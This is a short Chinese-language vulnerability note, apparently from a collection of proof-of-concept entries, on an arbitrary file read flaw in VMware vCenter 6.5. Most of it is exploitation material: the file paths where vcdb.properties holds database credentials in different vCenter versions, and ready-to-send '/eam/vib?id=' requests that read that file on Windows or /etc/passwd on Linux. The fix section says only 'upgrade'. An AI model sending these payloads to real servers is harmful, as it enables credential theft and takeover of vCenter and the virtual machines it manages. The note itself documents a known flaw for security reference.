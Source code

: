 ### 一 漏洞描述
VMware vCenter 服务器是一种高级服务器管理软件，提供一个用于控制 VMware vSphere 环境的集中式平台，帮助用户获取集中式可见性、简单高效的规模化管理，从而在整个混合云中自动部署和交付虚拟基础

VMware vCenter 存在任意文件读取漏洞，可读取 vCenter 配置文件获得管理帐号密码进而控制 vCenter 平台及其管理的虚拟机集群。

影响范围: VMware vCenter 6.5.0a-f

### 二 漏洞利用
由于不同的系统版本，数据库配置文件（vcdb.properties）存放位置不同，根据官方文档，大体可以分为：
```
对于 vCenter Server 5.5 及更低版本：
Windows 2008 - C:\ProgramData\VMware\VMware VirtualCenter
其他 Windows 版本 - C:\Documents and Settings\All Users\Application Data\VMware\VMware VirtualCenter\
对于 vCenter Server 6.0、6.5、6.7：
C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx

poc: /eam/vib?id={{path}}\vcdb.properties
```


```
#windows
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
#linux
/eam/vib?id=/etc/passwd
```

### 三 漏洞修复
升级

> 参考链接
> https://www.cnblogs.com/yuzly/p/13832084.html
> https://www.geekby.site/2022/05/vcenter%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/
